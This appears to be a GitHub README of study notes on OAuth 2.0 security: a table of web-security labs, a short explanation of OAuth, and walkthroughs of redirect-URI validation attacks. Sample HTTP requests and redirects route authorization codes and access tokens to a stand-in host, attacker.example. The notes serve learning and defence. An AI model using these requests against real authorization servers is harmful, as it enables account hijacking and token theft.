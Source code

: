 <p><a target="_blank" href="https://app.eraser.io/workspace/CKZ9W8XGguuGzUUoB4Eg" id="edit-in-eraser-github-link"><img alt="Edit in Eraser" src="https://firebasestorage.googleapis.com/v0/b/second-petal-295822.appspot.com/o/images%2Fgithub%2FOpen%20in%20Eraser.svg?alt=media&amp;token=968381c8-a7e7-472a-8ed6-4a6626da5501"></a></p>

| # | Lab Name | Level | Repeat | Link |
| ----- | ----- | ----- | ----- | ----- |
| 1 | [Authentication bypass via OAuth implicit flow](Authentication%20bypass%20via%20OAuth implicit%20flow) | APPRENTICE |  |  |
| 2 | Forced OAuth profile linking | PRACTITIONER |  |  |
| 3 | OAuth account hijacking via redirect_uri | PRACTITIONER |  |  |
| 4 | Stealing OAuth access tokens via an open redirect | PRACTITIONER |  |  |
| 5 | SSRF via OpenID dynamic client registration | PRACTITIONER |  |  |
| 6 | Stealing OAuth access tokens via a proxy page | EXPERT |  |  |


# What is OAuth ?
- OAuth is an **Authorization Framework **that enables websites and web applications to request **limited access to a user's account** on another application.
- Typically, OAuth allows the user to grant access without exposing the user's login credentials to the requesting application. 
# How does OAuth work ?


![OAuth Flow](/.eraser/CKZ9W8XGguuGzUUoB4Eg___DtAnWtIswaZrA5O4Cy5IZCcAYN53___---figure---wSoj5egs6wDDQhaXIhWsp---figure---HUpMv6AOvzOBZSBZA5dttQ.png "OAuth Flow")





# Attacks and Mitigations
## Insufficient Redirect URI validation
Some authorization servers allow clients to register redirect URI patterns instead of complete redirect URIs. 

### Redirect URI validation attacks on Authorization Code Grant
#### Assumptions
- Client registers with an redirect URL pattern `https://*.somesite.example`  with client ID `s6BhdRkqt3`. This would allow any subdomain of `somesite.example` to be a valid redirect URI for the client. 
> **NOTE: **A naive implementation of the authorization server, might interpret the wildcard ***** as "**any character**" and not "**any character valid for a domain name**". For example, the authorization server, might permit [﻿`https://attacker.example/.somesite.example`](https://attacker.example/)  as a valid redirect URI, although `attacker.example` is a different domain.

#### Attack Scenario
- Attacker tricks the user into opening a tampered URL
- Browser tries to render the attacker controlled malicious web page `https://www.evil.example` 
- The malicious web page initiates an authorization request with a valid client ID `s6BhdRkqt3` 
- Example Request:
```
﻿GET /authorize?response_type=code&client_id=s6BhdRkqt3&state=9ad67f13¶
     &redirect_uri=https%3A%2F%2Fattacker.example%2F.somesite.example
     HTTP/1.1
Host: server.somesite.example
```
- Authorization server validates the redirect URI which matches the wild card pattern registered for the client. 
- If the user doesn't notice the malicious redirect URI and grants the consent, the authorization code is issued and sent to attackers domain. **If an automatic approval of authorization is enabled, the attack can be performed even without user interaction. **
- If the attacker impersonates a public client, the attacker can exchange the code for tokens at the respective token endpoint. 
**NOTE: **The attack will not work as easily for confidential clients, since the code exchange requires authentication with the legitimate client's secret. The attacker cam, however use the legitimate confidential client to redeem the code by performing an authorization code injection attack. 

![Redirect URL validation attacks on Authorization Code Grant](/.eraser/CKZ9W8XGguuGzUUoB4Eg___DtAnWtIswaZrA5O4Cy5IZCcAYN53___---figure---i24pQPB_5nFUuWQichQsN---figure---FgAhew-fJTqiU74zj4Ew0w.png "Redirect URL validation attacks on Authorization Code Grant")

### Redirect URI validation attacks on Implicit Grant
#### Assumptions
- The registered URL pattern for client `s6BhdRkqt3`  is `https://client.somesite.example/cb?*` , allowing any parameter for redirects to `https://client.somesite.example/cb`.
- The client endpoint supports a parameter `redirect_to` , which redirects the browser using an HTTP 303 Location header redirect.
#### Attack Scenario
- Attacker tricks the user into opening a malicious web URL `https://www.evil.example`.
- The malicious website initiates an authorization request with a valid client ID `s6BhdRkqt3`  and adds an open redirector by encoding `redirect_to=https://attacker.example`  into the redirect URI parameters with response type "token".
```
GET /authorize?response_type=token&state=9ad67f13
    &client_id=s6BhdRkqt3
    &redirect_uri=https%3A%2F%2Fclient.somesite.example
     %2Fcb%26redirect_to%253Dhttps%253A%252F
     %252Fattacker.example%252F HTTP/1.1
Host: server.somesite.example
```
- Since the URL matches the registered pattern, the authorization server permits the request and sends the resulting access token in a 303 redirect.
```
HTTP/1.1 303 See Other
Location: https://client.somesite.example/cb?
          redirect_to%3Dhttps%3A%2F%2Fattacker.example%2Fcb
          #access_token=2YotnFZFEjr1zCsicMWpAA&...
```
- At `client.somesite.example` , the request arrives at the open redirector. The endpoint reads the redirect parameter and issues another HTTP 303 Location header redirect to the URL `https://attacker.example/` .
```
HTTP/1.1 303 See Other
Location: https://attacker.example/
```
- However, browsers, as specified by **RFC 7231**, reattach the original fragment to the new URL if the `Location`  header in the redirect response doesn't contain a fragment. Consequently, the browser navigates to `https://attacker.example/#access_token=2YotnFZFEjr1zCsicMWpAA...` 
![Redirect URI validation attacks on Implicit Grant](/.eraser/CKZ9W8XGguuGzUUoB4Eg___DtAnWtIswaZrA5O4Cy5IZCcAYN53___---figure---0nO1M6hUYkUSRU9uQiy6k---figure---tIK4SB6f2KMaUY__kz6pQQ.png "Redirect URI validation attacks on Implicit Grant")




<!-- eraser-additional-content -->
## Diagrams
<!-- eraser-additional-files -->
<a href="/Advanced-Topics/OAuth 2.0/README-OAuth 2.0 Authorization Flow-1.eraserdiagram" data-element-id="8spaGmKymnXBIp7pFVeHf"><img src="/.eraser/CKZ9W8XGguuGzUUoB4Eg___DtAnWtIswaZrA5O4Cy5IZCcAYN53___---diagram----6decbe98b2efc74356ac00b0c8e2db37-OAuth-2-0-Authorization-Flow.png" alt="" data-element-id="8spaGmKymnXBIp7pFVeHf" /></a>
<a href="/Advanced-Topics/OAuth 2.0/README-Redirect URI Validation Attacks on Authorization Code Grant-2.eraserdiagram" data-element-id="X4NOtxxpODPp1FIwSU0NR"><img src="/.eraser/CKZ9W8XGguuGzUUoB4Eg___DtAnWtIswaZrA5O4Cy5IZCcAYN53___---diagram----a38f06b940367c0d66a8ab12d9524f36-Redirect-URI-Validation-Attacks-on-Authorization-Code-Grant.png" alt="" data-element-id="X4NOtxxpODPp1FIwSU0NR" /></a>
<a href="/Advanced-Topics/OAuth 2.0/README-Redirect URI validation attacks on Implicit Grant-3.eraserdiagram" data-element-id="4SrtJxHzhLrS5LGw5RUGV"><img src="/.eraser/CKZ9W8XGguuGzUUoB4Eg___DtAnWtIswaZrA5O4Cy5IZCcAYN53___---diagram----f8101b9db25bbaa1e1a8fe535aa54feb-Redirect-URI-validation-attacks-on-Implicit-Grant.png" alt="" data-element-id="4SrtJxHzhLrS5LGw5RUGV" /></a>
<!-- end-eraser-additional-files -->
<!-- end-eraser-additional-content -->
<!--- Eraser file: https://app.eraser.io/workspace/CKZ9W8XGguuGzUUoB4Eg --->